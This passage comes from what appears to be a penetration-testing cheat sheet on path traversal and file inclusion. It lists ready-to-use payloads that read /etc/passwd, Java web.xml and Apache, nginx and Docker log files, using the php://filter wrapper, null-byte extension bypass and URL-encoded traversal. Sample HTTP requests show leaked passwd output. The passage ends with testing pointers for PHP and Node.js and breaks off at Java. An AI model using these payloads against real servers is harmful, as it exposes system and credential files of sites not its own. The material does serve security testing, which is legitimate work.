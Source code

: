 * Checking for Misconfigured File Inclusion Paths:

  * PHP: `?file=php://filter/convert.base64-encode/resource=../../../etc/passwd`
  * Node.js: `?file=/app/node_modules/../../../etc/passwd`
  * Java: `?file=/WEB-INF/web.xml`

* Using Log File Disclosure for Enumeration:

  * Example: `filename=../../../var/log/apache2/access.log`
  * Example: `filename=../../../var/log/nginx/error.log`
  * Example: `filename=../../../../../../var/lib/docker/containers/*/*.log`

### 4. Advanced Path Traversal Exploitation Examples
* Example 1: Basic Path Traversal Attack
```html
Request:
GET /loadImage?filename=../../../etc/passwd HTTP/1.1

Response:
root:x:0:0:root:/root:/bin/bash
...
```
* Example 2: Bypassing Extension Restrictions
```html
Request:
GET /loadImage?filename=../../../etc/passwd%00.png HTTP/1.1

Response:
root:x:0:0:root:/root:/bin/bash
...
```
* Example 3: Using URL Encoding for Bypass
```html
Request:
GET /loadImage?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd HTTP/1.1

Response:
root:x:0:0:root:/root:/bin/bash
...
```
### 5. Recommended Areas for Testing Based on Backend Technology
### PHP:

* Check file handling functions like `include()`, `require()`, `file_get_contents()`.
* Check for vulnerabilities in file-based CMS (e.g., WordPress, Joomla).
  
### Node.js:

* Look for `fs.readFile()`, Express file handling routes.
* Check for misconfigurations in upload directories and file-serving APIs.

### Java (Spring Boot, JSP):

